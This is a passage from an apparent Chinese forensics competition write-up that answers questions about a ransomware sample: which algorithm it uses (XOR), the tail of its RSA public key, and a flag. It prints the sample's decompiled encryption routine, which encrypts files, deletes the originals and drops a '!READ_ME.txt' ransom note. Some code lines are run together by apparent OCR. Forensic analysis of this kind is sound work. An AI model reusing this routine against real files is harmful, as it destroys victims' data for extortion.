 ```python
                    data_file = os.path.join(filepath, filename)
                    rsakey = RSA.import_key(pubkey)
                    cipher = Cipher_pkcs1_v1_5.new(rsakey)
                    xor_key = os.urandom(16)
                    xor_obj = XORCBC(xor_key)
                    outf = open(data_file + '_encrypted', 'wb')
                    encrypted_xor_key = cipher.encrypt(xor_key)
                    outf.write(encrypted_xor_key)
                    buffer_size = 4096
                    with open(data_file, 'rb') as (f):
                        while True:
                            data = f.read(buffer_size)
                            if not data:
                                break
                            outf.write(xor_obj.encrypt(data))

                    outf.close()
                    os.remove(data_file)run_finall()def redme():
    try:
        dir = os.path.join(os.path.expanduser('~'), 'Desktop')
        print(dir)
        with open(dir + '/!READ_ME.txt', 'w') as (ff):
            ff.write(msg)
    except:
        dir1 = os.getcwd()
        print(dir1)
        with open(dir1 + '/!READ_ME.txt', 'w') as (ff):
            ff.write(msg)print('\n加密完成~~~~~~~~~~~~~~~~~~')os.system('pause')
```

txt.jpg.docx.xls

### 43 分析加密程序，是通过什么算法对文件进行加密的？ 

![image-20230107151243377](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20230107151243377.png)

异或

### 44 分析加密程序，其使用的非对称加密方式公钥后5位为？

 pubkey = '-----BEGIN PUBLIC KEY-----\nMIIBIzANBgkqhkiG9w0BAQEFAAOCARAAMIIBCwKCAQEAx5JF4elVDBaakgGeDSxI\nCO1LyyZ6B2TgR4DNYiQoB1zAyWPDwektaCfnvNeHURBrw++HvbuNMoQNdOJNZZVo\nbHVZh+rCI4MwAh+EBFUeT8Dzja4ZlU9E7jufm69TQS0PSseIiU/4Byd2i9BvIbRn\nHLFZvi/VXphGeW0qVeHkQ3Ll6hJ2fUGhTsuGLc1XXHfiZ4RbJY/AMnjYPy9CaYzi\nSOT4PCf/O12Kuu9ZklsIAihRPl10SmM4IRnVhZYYpXedAyTcYCuUiI4c37F5GAhz\nRDFn9IQ6YQRjlLjuOX8WB6H4NbnKX/kd0GsQP3Zbogazj/z7OM0Y3rv3T8mtF6/I\nkwIEHoau+w==\n-----END PUBLIC KEY-----\n'

u+w==

### 45 被加密文档中，FLAG1的值是 

![image-20230107151413276](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20230107151413276.png)
